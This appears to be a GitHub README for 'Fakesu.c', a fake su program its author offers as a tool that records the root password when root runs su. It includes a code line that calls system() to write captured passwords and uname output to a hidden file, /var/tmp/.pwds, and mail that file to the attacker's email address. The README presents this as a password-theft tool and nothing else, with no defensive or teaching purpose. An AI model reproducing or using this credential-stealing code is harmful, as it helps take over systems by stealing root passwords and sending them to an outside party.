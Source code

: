 Fakesu.c
==============

Abstract
--------------
This is my SU password recorder which will 
automatically capture SU password when root type 
su.

My little 'feature'
-------------------------
Auto send password file to your email :P

'''c
system("uname  -a >> /var/tmp/.pwds;  cat /var/tmp/.pwds | mail <your@email>")
'''

- Zypeh 

<hr>

[![endorse] (http://api.coderwall.com/zypeh/endorsecount.png)] (http://coderwall.com/zypeh)

[![Facebook] (http://bit.ly/VTsPK4)] (http://www.facebook.com/lisper.zypeh)
